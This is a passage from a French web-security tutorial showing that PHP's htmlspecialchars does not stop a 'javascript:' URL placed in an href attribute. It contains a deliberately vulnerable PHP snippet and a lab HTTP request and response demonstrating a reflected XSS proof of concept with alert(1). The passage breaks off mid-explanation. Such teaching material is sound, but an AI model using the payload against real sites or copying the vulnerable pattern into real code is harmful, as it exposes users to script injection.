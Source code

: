 ```php
<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>Attribut "href" d'un lien</title>
  </head>
  <body>
     <p><?php echo '<a href="' . htmlspecialchars($_GET["param"]) . '">Lien</a>'; ?></p>
  </body>
</html>
```

L'affichage de la modale (ou l'exécution d'un code Javascript relativement simple) n'utilise pas les caractères transformés par la fonction PHP :&#x20;

```http
GET /minipoc/htmlspecialchars/?param=javascript:alert(1) HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.38 (Debian)
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="fr">
  <head>
    <title>Une injection simple</title>
  </head>
  <body>
     <p><a href="javascript:alert(1)">Lien</a></p>
  </body>
</html>
```

Le code Javascript est exécuté lorsque la victime clique sur le lien :&#x20;

![](<../../../../.gitbook/assets/image (37).png>)

De plus, selon le contexte d'interprétation des caractères ainsi transformés, cela peut n'avoir aucune incidence :&#x20;

